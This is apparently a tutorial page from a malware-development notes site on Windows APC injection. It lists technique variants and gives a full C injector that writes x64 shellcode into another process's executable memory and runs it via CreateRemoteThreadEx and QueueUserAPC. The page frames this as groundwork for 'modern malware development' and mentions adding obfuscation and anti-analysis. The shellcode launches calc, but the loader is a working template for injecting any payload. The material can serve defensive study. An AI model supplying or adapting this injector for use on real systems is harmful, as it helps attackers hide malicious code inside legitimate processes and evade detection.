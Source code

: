 ```yaml
---
description: >-
  Asynchronous Procedure Calls (APCs) are Windows operating system mechanism
  that enables programs to execute tasks asynchronously while continuing to run
  other tasks.
---
```


# APC Injection

## Introduction

APC Injection is a more stealthy and advanced form of process injection, it is a well known technique with many variations. Heres a fiew:

* QueueUserAPC APC Injection (Most common)
* NtQueueApcThread APC Injection
* Early Bird Injection
* AtomBombimg
* Reflective DLL Injection - Can be used in conjunction with APC.



### Alertable State

Not all threads can run a queued APC function, only threads in an _**alterable state**_ can do so.





## QueueUserAPC Injection

Here is the most basic example of APC Injection utilizing the QueueUserAPC Win32 Function & CreateRemoteThreadEx. It works by allocating memory in an external process (VirtualAllocEx), copying the payload to the allocated memory, and executing it with QueueUserAPC. We use Sleep() as our basic function of choice to put the thread in an alertable state.

_<mark style="color:red;">**NOTE:**</mark>_ Obviously this is unpractical as it's the most basic example. Thread hijacking, obfuscations, deletion, amongst other anti analysis techniques are all things that are required in modern malware development.



```c
#include <wchar.h>
#include <stdio.h>
#include <windows.h>


// x64 calc shellcode 
unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};


int wmain(int argc, wchar_t* argv[]) {

    HANDLE hProcess = NULL;
    HANDLE hThread = NULL;
    LPVOID lpBuffer = NULL;
    
    DWORD PID = _wtoi(argv[1]);

    wprintf(L" PID: %d\n", PID);
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, PID);
    if (hProcess == NULL) {
        wprintf(L"Failed to Create Process Handle %d\n", GetLastError());
        return -1;
    }
    // Allocate Memory in External Process
    lpBuffer = VirtualAllocEx(hProcess, NULL,  sizeof(Payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpBuffer == NULL) {
        wprintf(L"Failed to Allocate Buffer %d\n", GetLastError());
        return -1;
    }

    wprintf(L"Alloced Buffer in External Process: %d - Address: %p\n", PID, lpBuffer);

    WriteProcessMemory(hProcess, lpBuffer, Payload, sizeof(Payload), NULL);

    hThread = CreateRemoteThreadEx(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpBuffer, NULL, 0, NULL, NULL);
    if (hThread == NULL) {
        wprintf(L"Failed to Create Thread %d\n", GetLastError());
        return -1;
    }

    if (!QueueUserAPC((PAPCFUNC)lpBuffer, hThread, NULL)) {
        wprintf(L"Failed to Execute Payload via QueueUserAPC %d\n", GetLastError());
    }
    Sleep(3000);

    // Cleanup
    VirtualFree(lpBuffer, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```

##

<figure><img src="../../.gitbook/assets/Screenshot 2023-09-25 173151.png" alt=""><figcaption></figcaption></figure>

## M_**ore on Asynchronous Procedure Calls:**_

{% embed url="https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls" %}

